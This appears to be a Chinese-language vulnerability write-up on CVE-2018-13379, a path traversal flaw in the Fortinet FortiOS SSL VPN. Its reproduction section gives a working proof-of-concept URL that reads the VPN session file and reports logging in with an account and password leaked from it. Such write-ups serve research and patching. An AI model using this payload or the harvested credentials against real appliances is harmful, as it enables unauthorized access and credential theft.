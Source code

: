（CVE-2018-13379）Fortinet FortiOS 路径遍历漏洞
===============================================

一、漏洞简介
------------

Fortinet FortiOS路径遍历漏洞（CNNVD-201905-1026、CVE-2018-13379）漏洞源于该系统未能正确地过滤资源或文件路径中的特殊元素，导致攻击者可以利用该漏洞访问受限目录以外的位置。Fortinet
FortiOS 5.6.3版本至5.6.7版本、6.0.0版本至6.0.4版本中的SSL VPN
受此漏洞影响。

二、漏洞影响
------------

Fortinet FortiOS 5.6.3版本至5.6.7版本、

Fortinet FortiOS 6.0.0版本至6.0.4版本

中的SSL VPN 受此漏洞影响。

三、复现过程
------------

POC：`http://www.0-sec.org:4443/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession`

![](./.resource/(CVE-2018-13379)FortinetFortiOS路径遍历漏洞/media/rId24.png)

利用泄露的账户herschel/vvpn123成功登陆。

![](./.resource/(CVE-2018-13379)FortinetFortiOS路径遍历漏洞/media/rId25.png)

![](./.resource/(CVE-2018-13379)FortinetFortiOS路径遍历漏洞/media/rId26.png)

### 检测工具

> https://github.com/ianxtianxt/CVE-2018-13379

参考链接
--------

> https://blog.csdn.net/limb0/article/details/102890683
